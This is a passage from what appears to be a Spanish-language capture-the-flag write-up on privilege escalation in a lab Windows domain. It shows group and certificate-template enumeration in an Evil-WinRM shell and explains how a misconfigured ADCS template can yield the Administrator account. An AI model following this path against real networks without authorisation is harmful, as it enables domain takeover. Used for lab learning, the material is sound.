 <h2>ESCALADA DE PRIVILEGIOS</h2>

Viendo nuestro grupos nos percatamos de uno especial; el de servicio de certificados

{% highlight powershell %}
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
{% endhighlight %}

Parece que esta máquina tiene instalado ADCS (Active Directory Certificate Services); buscando por internet formas de abusarlo encontraremos que si existen plantillas de certificados de autenticación mal configuradas podemos hacernos con el usuario Administrador. Estas plantillas normalmente son aquellas las cuales podemos "matricular" y permiten autenticarse como otros usuarios.

Buscando por ellas encontramos una extraña:

{% highlight powershell %}
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> certutil -template
...
Template[31]:
  TemplatePropCommonName = UserAuthentication
  TemplatePropFriendlyName = UserAuthentication
  TemplatePropSecurityDescriptor = O:LAG:S-1-5-21-4078382237-1492182817-2568127209-519D:PAI(D;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-4078382237-1492182817-2568127209-1106)(OA;;RPWPCR;0e10c968-78fb-11d2-90d4-00c04f79dc55;;DA)...

    Deny Full Control	sequel\sql_svc
    Allow Enroll	sequel\Domain Admins
    Allow Enroll	sequel\Domain Users
    Allow Enroll	sequel\Enterprise Admins
    Allow Full Control	sequel\Domain Admins
    Allow Full Control	sequel\Enterprise Admins
    Allow Full Control	sequel\Administrator
    Allow Read	NT AUTHORITY\Authenticated Users
...
{% endhighlight %}
